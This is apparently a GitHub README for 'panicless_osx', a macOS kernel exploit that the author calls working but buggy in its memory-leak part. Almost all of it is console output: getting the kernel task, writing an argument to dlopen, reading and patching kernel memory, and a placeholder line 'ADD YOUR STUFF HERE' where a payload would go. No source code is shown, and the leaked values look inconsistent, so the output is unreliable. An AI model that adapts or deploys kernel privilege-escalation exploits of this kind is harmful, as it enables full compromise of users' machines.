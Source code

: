 # panicless_osx
This exploit is working with r/w privilige exc. but needs fix on reading mem/leak side due its abit buggy.

[panicless_osx] lets move in the dangly sketchy exploit
<br />
[panicless_osx] getting kernel task.
<br />
[panicless_osx] writing argument to dlopen.
<br />
[+] done!
<br />
[panicless_osx] exploring fake kernel_task abilities
<br />
[exploit] kernel_task (os/kern) successful
<br />
[+] kernel_task -> 0x1048835
<br />
[+] (read/kern) orig where:0x1056768 -> val 16
<br />
[+] (read/kern) patched where:0x1056768 -> val -272633096
<br />
[+] (read/kern) orig where:0x8192 -> val -272633088
<br />
[+] (read/kern) patched where:0x8192 -> val -272633096
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x4919 ->
<br />
info: nil
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x9015 ->
<br />
info: nil
<br />
[panicless_osx] fun part here (lets have some fun?)
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16777504 ->
<br />
info: nil
<br />
info -> 8
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16778272 ->
<br />
info: nil
<br />
info -> 16
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16777504 ->
<br />
info: nil
<br />
info -> 16
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x13443 ->
<br />
info: nil
<br />
info -> 16
<br />
[+] (read/kern) orig where:0x13443 -> val 16
<br />
[+] (read/kern) patched where:0x13443 -> val -272633096
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x13443 ->
<br />
info: nil
<br />
info -> 16
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x13443 ->
<br />
info: nil
<br />
[*] wefun -> 0x16
<br />
[*] wefun_pac -> 0x16777215
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16777231 ->
<br />
info: nil
<br />
wefun_pac_orig -> 16
<br />
[+] (read/kern) orig where:0x16777231 -> val 16
<br />
[+] (read/kern) patched where:0x16777231 -> val -272633096
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16777231 ->
<br />
info: nil
<br />
wefun_pac_patched -> 16
<br />
[panicless_osx] ADD YOUR STUFF HERE
<br />
Program ended with exit code: 0
